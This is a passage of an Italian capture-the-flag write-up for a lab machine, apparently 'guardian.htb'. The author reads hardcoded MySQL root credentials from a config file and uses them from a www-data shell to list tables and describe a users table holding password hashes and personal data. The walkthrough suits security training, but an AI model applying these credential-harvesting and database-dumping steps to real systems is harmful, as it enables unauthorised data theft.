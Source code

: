 ```bash
profile.php
reports
reports.php
settings.
```

## Data Exfiltration as www-data

Dall'analisi del repository **portal.guardian.htb** si capisce che la persistenza viene gestita con **mysql**.

```php
# config/config.php
<?php
return [
    'db' => [
        'dsn' => 'mysql:host=localhost;dbname=guardiandb',
        'username' => 'root',
        'password' => 'Gu4rd14n_un1_1s_th3_b3st',
        'options' => []
    ],
    'salt' => '8Sb)tM1vs1SS'
];
```

Quindi, si cercano informazioni sul db accedendo con le credenziali **root:Gu4rd14n_un1_1s_th3_b3st**.

```bash
www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SHOW TABLES;'

Tables_in_guardiandb
assignments
courses
enrollments
grades
messages
notices
programs
submissions
users

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; DESCRIBE users;'

Field   Type    Null    Key     Default Extra
user_id int     NO      PRI     NULL    auto_increment
username        varchar(255)    YES     UNI     NULL
password_hash   varchar(255)    YES             NULL
full_name       varchar(255)    YES             NULL
email   varchar(255)    YES             NULL
dob     date    YES             NULL
address text    YES             NULL
user_role       enum('student','lecturer','admin')      YES             student
status  enum('active','inactive')       YES             active
created_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED
updated_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED on update CURRENT_TIMESTAMP

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; DESCRIBE users;'

Field   Type    Null    Key     Default Extra
user_id int     NO      PRI     NULL    auto_increment
```